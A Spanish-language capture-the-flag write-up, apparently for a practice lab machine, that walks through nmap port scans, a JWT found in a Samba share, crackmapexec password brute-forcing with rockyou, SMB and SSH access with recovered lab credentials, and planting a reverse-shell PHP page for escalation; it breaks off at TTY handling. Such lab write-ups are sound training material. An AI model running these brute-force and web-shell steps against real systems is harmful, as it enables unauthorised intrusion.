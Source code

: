 # Maquina

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.1

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,139,445 -vvv -Pn 172.17.0.1

![alt text](image-1.png)

### Listar samba

![alt text](image-2.png)

encontramos un archivo access.txt que contenia un jwt, lo verificamos con jwt.io y nos aparecio un dominio y un usuario:

![alt text](image-3.png)

satriani7 -> eseemeb.dl

![alt text](image-4.png)

### Crackmapexec 

crackmapexec smb 172.17.0.1 -u satriani7 -p /usr/share/wordlists/rockyou.txt --users

![alt text](image-5.png)

![alt text](image-6.png)




nos aseguramos a que tenemos acceso con las credenciales de arriba:



smbmap -H 172.17.0.1 -u satriani7 -p 50cent

![alt text](image-8.png)

smbclient //172.17.0.1/backup24 -U satriani7%50cent

![alt text](image-9.png)

abrimos el archivo credentials.txt y encontramos las credenciales para SSH.

![alt text](image-10.png)

![alt text](image-11.png)

### Escalar privilegios

No encontramos nada, utilizando las diferentes herramientas tales como sudo -l, SUID, crontab, linpeas, pspy64.

Aplicando el artificio:

hice fuzzing web y encontramos un /productos.php entonces con la conexion ssh que tengo entre en /var/www/html y renombre el archivo procutos.php por products.php ya que no podia editarlo y cree un productos.php con una reverse shell.

![alt text](image-12.png)

![alt text](image-14.png)

![alt text](image-13.png)

me puse en escucha por el puerto 443 y luego entre en la web a /productos.php, una vez conectado, hice tratamiento de la TTY:





